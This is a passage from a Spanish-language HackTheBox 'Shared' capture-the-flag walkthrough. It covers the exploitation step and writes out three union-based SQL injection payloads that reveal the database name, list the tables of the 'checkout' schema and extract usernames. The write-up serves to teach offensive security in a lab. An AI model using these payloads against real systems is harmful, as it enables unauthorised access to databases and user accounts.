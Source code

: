 Pruebo a meter una serie de inyecciones sql con éxito.

# Explotación [#](explotación) {#explotación}

***

## Inyección SQL [💉](sqli) {#sqli}

```bash
# Primero he de descubrir el nombre de la base de datos
=======================================================
{"' and 0=1 union select 1,database(),3-- -":"1"}
```

![](/assets/images/HTB/Shared-HackTheBox/sqli1.webp)

```bash
# A continuación intentaré listar las tablas existentes dentro de la base de datos checkout
===========================================================================================
{"' and 0=1 union select 1,table_name,table_schema from information_schema.tables where table_schema='checkout'-- -":"1"}
```

![](/assets/images/HTB/Shared-HackTheBox/sqli2.webp)

Puedo ver que existe una columna con el nombre de users, por lo que ahora me toca leer las columnas de la tabla users.

```bash
# Listar columnas de la tabla users de la base de datos checkout
==================================================================
{"' and 0=1 union select 1,username,2 from checkout.user-- -":"1"}
```

![](/assets/images/HTB/Shared-HackTheBox/sqli3.webp)
